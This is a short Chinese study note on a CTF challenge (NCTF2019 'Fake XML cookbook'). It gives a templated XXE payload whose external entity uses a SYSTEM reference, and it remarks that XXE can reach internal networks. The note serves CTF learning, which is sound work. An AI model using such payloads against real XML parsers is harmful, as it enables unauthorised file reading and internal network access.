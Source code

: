 参考[[[NCTF2019]Fake XML cookbook（学习）]]
```xml
<?xml version="1.0"?>
<!DOCTYPE <doctype_name> [
<!ENTITY <entity_name> SYSTEM "<command>">
]>
<node_0>
	<node_1>&<entity_name>;</node_1>
</node_0>
```

XXE还可以用来内网访问QwQ

#Web #XXE 